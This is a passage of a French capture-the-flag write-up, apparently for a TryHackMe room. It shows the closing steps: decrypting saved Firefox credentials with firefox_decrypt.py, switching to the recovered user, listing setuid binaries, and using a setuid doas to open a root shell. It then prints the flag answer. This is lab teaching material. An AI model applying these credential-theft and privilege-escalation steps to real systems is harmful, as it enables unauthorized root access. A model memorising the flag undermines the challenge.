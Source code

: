 On télécharge l'archive.   
On décompresse l'archive.  
On récupère firefox_decrypt.py si on l'a pas installé avant.  
On l'exécute sur le répertoire de qui avait été archivé.   
Et on trouve un des identifiants :   
Nom : v0id
Mot de passe : love_the_void    

```bash
user@ubuntu:~$ su v0id
su v0id
Password: love_the_void

v0id@ubuntu:~$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/doas

```

On se connect sous l'utilisateur v0id.   
On recherche le fichier setuid.   
On remarque doas qui peut nous avoir les privilèges root.   

```bash
v0id@ubuntu:~$ doas -u root bash
doas -u root bash
Password: love_the_void

root@ubuntu:/home/v0id# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/v0id# cat /root/root.txt

cat /root/root.txt
THM{diamonds_break_our_aching_minds}
```

doas permet d'exécuter un fichier avec les droits d'un autre utilisateur.   
On exécute un shell avec les droits root.   
On lit le fichier root.txt.    

La réponse est : THM{diamonds_break_our_aching_minds}   

